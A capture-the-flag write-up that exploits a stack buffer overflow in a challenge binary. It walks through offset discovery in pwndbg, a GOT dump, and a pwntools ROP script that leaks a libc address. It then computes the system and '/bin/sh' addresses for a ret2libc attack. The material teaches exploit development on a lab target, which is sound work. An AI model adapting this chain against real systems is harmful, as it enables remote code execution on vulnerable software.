

# C is super easy and secure 2

## Patching the Binary to use it with libc of the server

You need a tool like [pwninit](https://github.com/io12/pwninit) to locally link the libc and the linker .so of the server.

You can do this with: `pwninit --bin program.elf --ld ld-linux-x86-64.so.2 --libc libc.so.6`

## Find Offset to cause overflow

First of all, you can check for the offset pattern that crashes the program (because of an overlow).

I like to use `pwndbg` for this:

```bash
$ pwndbg program.elf_patched 
# Launches Pwndbg (GDB with powerful enhancements) and loads the binary `program.elf_patched`.

pwndbg: loaded 179 pwndbg commands and 47 shell commands...
# Displays Pwndbg's initialization info; confirms availability of useful commands and functions.

Reading symbols from program.elf_patched...
# GDB attempts to read debugging symbols. These would provide useful info like variable names and line numbers.

pwndbg> cyclic 64
# Generates a 64-byte cyclic pattern (unique sequence) for use in detecting buffer overflow offsets.

aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaa
# The actual generated pattern that will be input into the program.

pwndbg> r
# Runs the binary under GDB.

Please enter a username: HackTWK
Please enter a password: aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaa
# User provides input (name + cyclic pattern) to trigger potential buffer overflow.

Program received signal SIGSEGV, Segmentation fault.
# The program crashes due to a segmentation fault — often indicates control over instruction pointer (EIP/RIP).

0x000000000040066d in main ()
# Crash occurred inside `main` at offset 0x40066d.

RBP  0x6161616161616167 ('gaaaaaaa')
# The base pointer (RBP) has been overwritten with part of the cyclic pattern — suggests stack buffer overflow.

RIP  0x40066d (main+434) ◂— ret 
# The instruction pointer (RIP) has not yet been overwritten; the crash happened on a return instruction.

───────────────────────────────────────────────────────────────────────────────────────────
rsp 0x7fffffffd3b8 ◂— 'haaaaaaa'
# Stack pointer (RSP) is pointing to part of the cyclic input — confirms overflow reached the stack.

pwndbg> cyclic -l 0x6161616161616168
# This command checks where in the cyclic pattern the value 0x6161616161616168 ('haaaaaaa') appears.

Found at offset 56
# Confirms that the crash occurred 56 bytes into the cyclic pattern — key to determining correct buffer size for exploit.
```

Now we know that the buffer is 56 bytes large.

## Find GOT Adress table to find libc version

In `pwndbg` you can just type `got` and it will print something like:

```bash
pwndbg> got
Filtering out read-only entries (display them with -r or --show-readonly)

State of the GOT of /drives/f/git/HackTWK/Challenges/reversing/c-is-easy-and-secure-2/program.elf_patched:
GOT protection: Partial RELRO | Found 6 GOT entries passing the filter
[0x403000] puts@GLIBC_2.2.5 -> 0x7ffff7dfc600 (puts) ◂— endbr64 
[0x403008] printf@GLIBC_2.2.5 -> 0x7ffff7dd4a80 (printf) ◂— endbr64 
[0x403010] strcspn@GLIBC_2.2.5 -> 0x7ffff7f04c40 (__strcspn_sse42) ◂— endbr64 
[0x403018] fgets@GLIBC_2.2.5 -> 0x7ffff7dfa2e0 (fgets) ◂— endbr64 
[0x403020] gets@GLIBC_2.2.5 -> 0x7ffff7dfb860 (gets) ◂— endbr64 
[0x403028] setvbuf@GLIBC_2.2.5 -> 0x7ffff7dfcea0 (setvbuf) ◂— endbr64 
```

The `0x7ffff7dfc600` addresses are only valid at the current runtime and need to be extracted using a ROP Chain.

## Crafting the address leaking

I use `ropper` to search for the assembly instructions of the `ret` and `pop rdi; ret` instance with `ropper --file ./program.elf_patched --search "ret"`.

This will give me somethign like `0x0000000000400356: ret;`

You also could use `ROPgadget --binary program.elf_patched | grep ret`, pwngdb or pwntools right away to find this.

We also need the "normal" address of the `pop rdi; ret` with e.g. `ropper --file ./program.elf_patched --search "pop rdi"`

`0x00000000004004b6 : pop rdi ; ret`

We also need the `puts` address from the GOT Table. You can also retrive those values from pwntools with this code:

```python
got_puts_address = p64(binary.got.puts)
got_fgets_address = p64(binary.got.fgets)
```

### Actual leaking

```python
from pwn import *

context.terminal = ["konsole", "-e"]
context.binary = binary = elf = ELF("./program.elf_patched")

p = process()

# gdb.attach(p)

pop_rdi_ret = p64(0x00000000004004b6)
ret = p64(0x0000000000400356)

main_address = p64(binary.symbols.main)

got_puts_address = p64(binary.got.puts) # this is only the local address of the got table
got_fgets_address = p64(binary.got.fgets)
got_printf_address = p64(binary.got.printf)


# print("got puts address: {}".format(hex(binary.got.puts)))
# print("got fgets address: {}".format(hex(binary.got.fgets)))
# print("got printf address: {}".format(hex(binary.got.printf)))

plt_puts_address = p64(binary.plt.puts)
plt_fgets_address = p64(binary.plt.fgets)
plt_printf_address = p64(binary.plt.printf)

# print("plt puts address: {}".format(hex(binary.plt.puts)))
# print("plt fgets address: {}".format(hex(binary.plt.fgets)))
# print("plt printf address: {}".format(hex(binary.plt.printf)))


payload = b"A"*56
payload += ret
payload += pop_rdi_ret + got_fgets_address + plt_puts_address
payload += ret + main_address


p.recvuntil(b": ")
p.sendline(b"HackTWK")
p.recvuntil(b"password: ")
p.sendline(payload)
output = p.recvuntil(b"username: ")
print(output)

# Split output by newlines
lines = output.split(b'\n')

# Find all possible 6-byte leaks
leaks = [line for line in lines if len(line) == 6]

fgets_leak = u64(leaks[0].ljust(8, b'\x00'))

print(f"Leaked fgets: {hex(fgets_leak)}")

pause()
```

## Getting to the symbol address you want

With parts of the GOT Table and the leaked address of a symbol you can "guess" the addresses of the libc symbols/functions that are relevant to get e.g. a RCE.
To figure it out go to one of the websites when searching for "lib c database search". I'll use [this](https://libc.blukat.me/).

You need to put in the values you got from the GOT table to find the other addresses.



In this image are multiple things to consider:

1. Put the address values of the leaked addresses from the GOT table in the form (you can only really need the last few bytes so `0x7ffff7dd4a80` becomes just `4a80`)
2. Select the libc version. This might be a bit annoying, since you might try multiple times with different versions
3. Select the symbol you want to leak, so the address offsets are generated automatically

This will result in those lines of code:

```python
str_bin_sh = p64(fgets_leak + 0x1592f8)
system_address = p64(fgets_leak - 0x2e610)
```
